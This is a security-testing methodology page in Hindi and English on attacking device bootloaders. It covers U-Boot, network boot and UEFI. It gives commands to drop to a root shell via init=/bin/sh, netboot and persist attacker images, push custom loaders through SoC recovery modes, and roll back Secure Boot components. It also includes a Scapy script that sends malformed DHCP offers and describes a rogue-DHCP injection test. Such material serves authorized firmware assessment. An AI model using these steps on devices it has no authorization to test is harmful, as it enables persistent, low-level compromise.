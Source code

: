 # बूटलोडर परीक्षण

{{#include ../../banners/hacktricks-training.md}}

निम्नलिखित चरण डिवाइस के स्टार्टअप कॉन्फ़िगरेशन को बदलने और U-Boot तथा UEFI-class लोडर्स जैसे bootloaders का परीक्षण करने के लिए सुझाए जाते हैं। प्रारंभिक कोड निष्पादन पाने, signature/rollback सुरक्षा का आकलन करने, और recovery या network-boot पाथ्स का दुरुपयोग करने पर ध्यान दें।

Related: MediaTek secure-boot bypass via bl2_ext patching:

{{#ref}}
android-mediatek-secure-boot-bl2_ext-bypass-el3.md
{{#endref}}

## U-Boot quick wins and environment abuse

1. इंटरप्रेटर शेल तक पहुँचें
- बूट के दौरान, `bootcmd` के चलने से पहले किसी ज्ञात ब्रेक की (अक्सर कोई भी की, 0, space, या बोर्ड-विशेष "magic" सिक्वेंस) को दबाकर U-Boot प्रॉम्प्ट में आएं।

2. बूट स्थिति और वेरिएबल्स का निरीक्षण करें
- उपयोगी कमांड्स:
- `printenv` (environment dump)
- `bdinfo` (board info, memory addresses)
- `help bootm; help booti; help bootz` (supported kernel boot methods)
- `help ext4load; help fatload; help tftpboot` (available loaders)

3. रूट शेल पाने के लिए boot arguments बदलें
- `init=/bin/sh` जोड़ें ताकि kernel सामान्य init के बजाय शेल पर जाए:
```
# printenv
# setenv bootargs 'console=ttyS0,115200 root=/dev/mtdblock3 rootfstype=<fstype> init=/bin/sh'
# saveenv
# boot    # or: run bootcmd
```

4. अपने TFTP सर्वर से Netboot करें
- नेटवर्क कॉन्फ़िगर करें और LAN से kernel/fit image लाएं:
```
# setenv ipaddr 192.168.2.2      # device IP
# setenv serverip 192.168.2.1    # TFTP server IP
# saveenv; reset
# ping ${serverip}
# tftpboot ${loadaddr} zImage           # kernel
# tftpboot ${fdt_addr_r} devicetree.dtb # DTB
# setenv bootargs "${bootargs} init=/bin/sh"
# booti ${loadaddr} - ${fdt_addr_r}
```

5. environment के माध्यम से परिवर्तन को स्थायी करें
- यदि env स्टोरेज write-protected नहीं है, तो आप नियंत्रण को स्थायी कर सकते हैं:
```
# setenv bootcmd 'tftpboot ${loadaddr} fit.itb; bootm ${loadaddr}'
# saveenv
```
- `bootcount`, `bootlimit`, `altbootcmd`, `boot_targets` जैसे वेरिएबल्स की जांच करें जो fallback पाथ्स को प्रभावित करते हैं। गलत कॉन्फ़िगर किए गए मान बार-बार शेल में ब्रेक दिला सकते हैं।

6. debug/unsafe सुविधाओं की जाँच करें
- देखें: `bootdelay` > 0, `autoboot` disabled, unrestricted `usb start; fatload usb 0:1 ...`, serial के माध्यम से `loady`/`loads` की क्षमता, removable media से `env import` की अनुमति, और kernels/ramdisks बिना signature checks के लोड होने की स्थितियाँ।

7. U-Boot image/verification परीक्षण
- यदि प्लेटफ़ॉर्म FIT images के साथ secure/verified boot का दावा करता है, तो unsigned और tampered images दोनों आज़माएँ:
```
# tftpboot ${loadaddr} fit-unsigned.itb; bootm ${loadaddr}     # should FAIL if FIT sig enforced
# tftpboot ${loadaddr} fit-signed-badhash.itb; bootm ${loadaddr} # should FAIL
# tftpboot ${loadaddr} fit-signed.itb; bootm ${loadaddr}        # should only boot if key trusted
```
- `CONFIG_FIT_SIGNATURE`/`CONFIG_(SPL_)FIT_SIGNATURE` की अनुपस्थिति या legacy `verify=n` व्यवहार अक्सर arbitrary payloads को बूट करने की अनुमति देता है।

## Network-boot surface (DHCP/PXE) and rogue servers

8. PXE/DHCP पैरामीटर फज़िंग
- U-Boot के legacy BOOTP/DHCP हैंडलिंग में memory-safety मुद्दे रहे हैं। उदाहरण के लिए, CVE‑2024‑42040 crafted DHCP responses के माध्यम से memory disclosure का वर्णन करता है जो U-Boot memory से bytes को वायर पर leak कर सकता है। netboot के दौरान boot parameters को overly long/edge-case मानों (option 67 bootfile-name, vendor options, file/servername fields) के साथ exercise करें और हँग/leak के लिए देखें।
- netboot के दौरान boot पैरामीटर्स को stress करने के लिए Minimal Scapy snippet:
```python
from scapy.all import *
offer = (Ether(dst='ff:ff:ff:ff:ff:ff')/
IP(src='192.168.2.1', dst='255.255.255.255')/
UDP(sport=67, dport=68)/
BOOTP(op=2, yiaddr='192.168.2.2', siaddr='192.168.2.1', chaddr=b'\xaa\xbb\xcc\xdd\xee\xff')/
DHCP(options=[('message-type','offer'),
('server_id','192.168.2.1'),
# Intentionally oversized and strange values
('bootfile_name','A'*300),
('vendor_class_id','B'*240),
'end']))
sendp(offer, iface='eth0', loop=1, inter=0.2)
```
- यह भी जाँचें कि क्या PXE filename फ़ील्ड्स shell/loader लॉजिक को बिना sanitization के पास की जा रही हैं जब इन्हें OS-side provisioning scripts से chained किया जाता है।

9. Rogue DHCP server command injection परीक्षण
- एक rogue DHCP/PXE सर्विस सेटअप करें और filename या options फ़ील्ड्स में characters इंजेक्ट करके boot chain के बाद के चरणों में command interpreters तक पहुँचने की कोशिश करें। Metasploit की DHCP auxiliary, `dnsmasq`, या custom Scapy scripts अच्छे काम करते हैं। पहले लैब नेटवर्क को अलग रखें।

## SoC ROM recovery modes that override normal boot

कई SoC एक BootROM "loader" मोड एक्सपोज़ करते हैं जो USB/UART के माध्यम से कोड स्वीकार करेगा भले ही flash images invalid हों। यदि secure-boot fuses नहीं जलाए गए हैं, तो यह chain में बहुत जल्दी arbitrary code execution प्रदान कर सकता है।

- NXP i.MX (Serial Download Mode)
- Tools: `uuu` (mfgtools3) or `imx-usb-loader`.
- Example: `imx-usb-loader u-boot.imx` से कस्टम U-Boot को RAM में push और run करें।
- Allwinner (FEL)
- Tool: `sunxi-fel`.
- Example: `sunxi-fel -v uboot u-boot-sunxi-with-spl.bin` या `sunxi-fel write 0x4A000000 u-boot-sunxi-with-spl.bin; sunxi-fel exe 0x4A000000`.
- Rockchip (MaskROM)
- Tool: `rkdeveloptool`.
- Example: `rkdeveloptool db loader.bin; rkdeveloptool ul u-boot.bin` से loader stage करें और कस्टम U-Boot upload करें।

जाँच करें कि क्या डिवाइस में secure-boot eFuses/OTP जले हुए हैं। यदि नहीं, तो BootROM download मोड अक्सर किसी भी higher-level verification (U-Boot, kernel, rootfs) को bypass करके आपका first-stage payload सीधे SRAM/DRAM से execute कर देता है।

## UEFI/PC-class bootloaders: quick checks

10. ESP में छेड़छाड़ और rollback परीक्षण
- EFI System Partition (ESP) mount करें और loader components देखें: `EFI/Microsoft/Boot/bootmgfw.efi`, `EFI/BOOT/BOOTX64.efi`, `EFI/ubuntu/shimx64.efi`, `grubx64.efi`, vendor logo paths.
- यदि Secure Boot revocations (dbx) अद्यतन नहीं हैं, तो downgraded या ज्ञात-कमजोर signed boot components के साथ बूट करने की कोशिश करें। यदि प्लेटफ़ॉर्म अभी भी पुराने shims/bootmanagers पर भरोसा करता है, तो आप अक्सर ESP से अपना kernel या `grub.cfg` लोड करके persistence प्राप्त कर सकते हैं।

11. Boot logo parsing बग्स (LogoFAIL class)
- कई OEM/IBV firmware DXE में image-parsing flaws के शिकार थे जो boot logos को process करते हैं। यदि attacker ESP पर vendor-विशेष path (उदा., `\EFI\<vendor>\logo\*.bmp`) पर crafted image रख सकता है और reboot कर सकता है, तो Secure Boot enabled होने पर भी early boot के दौरान code execution संभव हो सकता है। जाँचें कि क्या प्लेटफ़ॉर्म user-supplied logos स्वीकार करता है और क्या वे paths OS से writable हैं।

## Hardware caution

SPI/NAND flash के साथ early boot के दौरान इंटरैक्ट करते समय सतर्क रहें (उदा., reads को bypass करने के लिए pins को ग्राउंड करना) और हमेशा flash datasheet देखें। गलत टाइम किए गए शॉर्टs डिवाइस या programmer को corrupt कर सकते हैं।

## नोट्स और अतिरिक्त सुझाव

- `env export -t ${loadaddr}` और `env import -t ${loadaddr}` आज़माएँ ताकि environment blobs को RAM और storage के बीच मूव किया जा सके; कुछ प्लेटफ़ॉर्म removable media से बिना authentication के env import करने की अनुमति देते हैं।
- Linux-आधारित सिस्टमों पर जो `extlinux.conf` के माध्यम से बूट होते हैं, boot partition में `APPEND` line (जैसे `init=/bin/sh` या `rd.break` इंजेक्ट करना) अक्सर पर्याप्त होता है जब signature checks लागू नहीं होते।
- यदि userland `fw_printenv/fw_setenv` देता है, तो सत्यापित करें कि `/etc/fw_env.config` वास्तविक env स्टोरेज से मेल खाता है। गलत कॉन्फ़िगर किए गए offsets आपको गलत MTD region पढ़ने/लिखने देते हैं।

## References

- [https://scriptingxss.gitbook.io/firmware-security-testing-methodology/](https://scriptingxss.gitbook.io/firmware-security-testing-methodology/)
- [https://www.binarly.io/blog/finding-logofail-the-dangers-of-image-parsing-during-system-boot](https://www.binarly.io/blog/finding-logofail-the-dangers-of-image-parsing-during-system-boot)
- [https://nvd.nist.gov/vuln/detail/CVE-2024-42040](https://nvd.nist.gov/vuln/detail/CVE-2024-42040)

{{#include ../../banners/hacktricks-training.md}}
